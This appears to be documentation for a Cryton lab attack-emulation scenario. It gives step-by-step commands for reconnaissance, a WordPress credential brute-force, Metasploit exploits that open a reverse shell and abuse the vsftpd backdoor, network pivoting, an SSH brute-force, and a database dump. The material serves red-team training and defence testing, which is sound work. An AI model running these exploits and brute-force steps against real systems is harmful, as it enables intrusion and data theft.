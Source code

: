On this page we will go through the Steps of the example attack scenario.

## Scenario execution
First, enter the container with Cryton CLI:
```shell
docker exec -it cryton-cli bash
```

### Autorun the scenario
```shell
/opt/resources/run_scenario_1.sh
```

### Manually run the scenario

Register and check the Worker:
```shell
cryton-cli workers create attacker
cryton-cli workers health-check <worker-id>
```

Validate the template:
```shell
cryton-cli plans validate /opt/resources/template.yml -i /opt/resources/inventory.yml
```

Upload the template, create a Plan and a Run:
```shell
cryton-cli plan-templates create /opt/resources/template.yml
cryton-cli plans create <plan-template-id> -i /opt/resources/inventory.yml
cryton-cli runs create <plan-id> <worker-id>
```

Execute the Run:
```shell
cryton-cli runs execute <run-id>
```

Check status of the Run:
```shell
cryton-cli runs show <run-id>
```

Generate Run report:
```shell
cryton-cli runs report <run-id>
```

---

## Plan description
Here is a bit more detailed description of the plan. It gives you the commands to recreate the Run yourself.

### Stage 1a - DMZ information gathering

#### Scan DMZ
```shell
nmap -sV 192.168.91.0/24 -p80,3306 --exclude 192.168.91.11 -sV --open
```

#### Scan WordPress website
```shell
wpscan 192.168.91.10
```

### Stage 1b - WordPress exploitation

#### Get WordPress credentials using bruteforce
```shell
nmap --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.threads=3,brute.firstonly=true' 192.168.91.10
```

#### Get session using exploit
(MSF console)
```shell
use unix/webapp/wp_admin_shell_upload
set rhosts 192.168.91.10
set username wordpress
set password wordpress
set LHOST 192.168.91.30
exploit -j
```

### Stage 2a - Server network information gathering

#### Check for interfaces
```shell
cat /etc/hosts
```

#### Create routing table
(MSF console)
```shell
use post/multi/manage/autoroute
set cmd add
set session 1
set SUBNET 192.168.92.0
run
```

check the routing table
```shell
route print
```

cleaning the routing table
```shell
route flush
```

#### Scan FTP server
(MSF console)
```shell
use scanner/portscan/tcp
set PORTS 21
set RHOSTS 192.168.92.20
run
```

#### Scan DB server
(MSF console)
```shell
use scanner/portscan/tcp
set PORTS 5432
set RHOSTS 192.168.92.21
run
```

### Stage 2b - FTP exploitation

#### Exploit FTP server
(MSF console)
```shell
use unix/ftp/vsftpd_234_backdoor
set payload cmd/unix/interact
set RHOSTS 192.168.92.20
exploit
```

#### Read logs from the FTP server
```shell
cat /var/log/vsftpd.log
```

### Stage 3a - User network information gathering

#### Create routing table
(MSF console)
```shell
use post/multi/manage/autoroute
set cmd add
set session 1
set SUBNET 192.168.94.0
run
```

#### Scan user machine
(MSF console)
```shell
use scanner/portscan/tcp
set PORTS 22
set RHOSTS 192.168.94.20
run
```

### Stage 3b - User exploitation

#### Bruteforce user credentials
(MSF console)
```shell
use scanner/ssh/ssh_login
set RHOSTS 192.168.94.20
set USERNAME victim
set PASS_FILE /app/resources/pass_list.txt
set STOP_ON_SUCCESS true
set BLANK_PASSWORDS true
set THREADS 5
run
```

### Stage 4a - data extraction

#### Check user's bash history
```shell
cat ~/.bash_history
```

#### Dump database
````shell
PGPASSWORD=dbpassword pg_dump -h 192.168.94.21 -U dbuser beastdb
````

[//]: # (#### Create Socks proxy &#40;deprecated for now&#41;)

[//]: # (&#40;MSF console&#41;)

[//]: # (```shell)

[//]: # (use auxiliary/server/socks_proxy)

[//]: # (set VERSION 4a)

[//]: # (run)

[//]: # (```)

[//]: # ()
[//]: # (#### Scan server network &#40;deprecated for now&#41;)

[//]: # (```shell)

[//]: # (nmap 192.168.62.20 -sT -Pn --proxies socks4://127.0.0.1:1080 -p21 -sV)

[//]: # (```)